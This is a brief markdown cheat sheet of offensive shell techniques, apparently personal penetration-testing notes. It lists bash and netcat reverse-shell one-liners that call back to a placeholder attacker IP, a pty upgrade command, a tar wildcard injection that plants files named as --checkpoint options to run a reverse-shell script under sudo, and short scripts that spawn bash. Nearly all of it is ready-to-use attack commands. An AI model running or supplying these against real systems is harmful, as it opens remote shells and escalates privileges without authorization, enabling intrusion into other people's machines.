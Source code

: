 # Resources
- http://www.revshells.com
- https://book.hacktricks.xyz/generic-methodologies-and-resources/reverse-shells/linux

---
# Shellnanigans

- `python -c 'import pty; pty.spawn("/bin/sh")'`
- `bash -i >& /dev/tcp/<IP>/<port> 0>&1`


Tar being called with sudo wildcard `*` [HelpNetSecurity](https://www.helpnetsecurity.com/2014/06/27/exploiting-wildcards-on-linux/?ref=blog.tryhackme.com) explanation
```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ip> 1234 >/tmp/f" > shell.sh
touch "/var/www/html/--checkpoint-action=exec=sh shell.sh"
touch "/var/www/html/--checkpoint=1"
```

---

# Scripts
## Python3
```python
import subprocess

def spawn_bash():
    # Spawns an interactive Bash shell
    subprocess.run("/bin/bash")

if __name__ == "__main__":
    spawn_bash()

```

## Python2
```python
import subprocess

def spawn_bash():
    # Spawns an interactive Bash shell
    subprocess.call("/bin/bash")

if __name__ == "__main__":
    spawn_bash()

```

## BASH
```bash
#!/bin/bash

bash -i >& /dev/tcp/<IP>/<port> 0>&1
```
